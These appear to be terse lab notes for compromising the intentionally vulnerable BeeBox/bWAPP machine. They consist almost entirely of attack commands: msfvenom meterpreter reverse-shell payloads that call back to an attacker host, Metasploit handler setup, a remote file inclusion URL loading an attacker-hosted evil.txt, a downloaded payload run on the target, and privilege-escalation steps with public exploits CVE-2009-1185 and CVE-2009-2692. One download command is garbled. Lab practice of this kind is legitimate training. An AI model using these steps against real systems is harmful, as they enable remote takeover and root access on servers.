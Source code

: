 ###BeeBox

"/multi/handler" can be used for txt file reverse shell

msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.112.4 LPORT=4446 -f raw -o /var/www/html/evil.txt
msfconsole 
use exploit/multi/handler
set LPORT 4446
set LHOST 192.168.112.4
set PAYLOAD php/meterpreter_reverse_tcp
run

***Remote & Local File Inclusion (RFI/LFI)***

http://192.168.1.135/bWAPP/rlfi.php?language=lang_en.php&action=go
?language=http://192.168.112.4/evil.txt

python -c 'import pty; pty.spawn("/bin/sh")'
id
whoami

On Kali:
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.112.4 LPORT=5000 -f elf -o /var/www/html/run
service apache2 
msfconsole
use exploit/multi/handler
set LHOST 192.168.112.4
set LPORT 5000
set PAYLOAD linux/x86/meterpreter/reverse_tcp

On BeeBox:
wget http://192.168.112.4/run -o /tmp/cd un
gcc cve-2009-1185.c -o /tmp/privescalation
chmod +x /tmp/privescalation
cd /tmp
ps aux | grep udev
./privescalation (PID discovered with grep minus 1 - e.g. 2864 - 1 = 2863)


**Easy Way**
tar -xvf cve-2009-2692.tar
cd cve-2009-2692
sh cve-2009-2692.sh

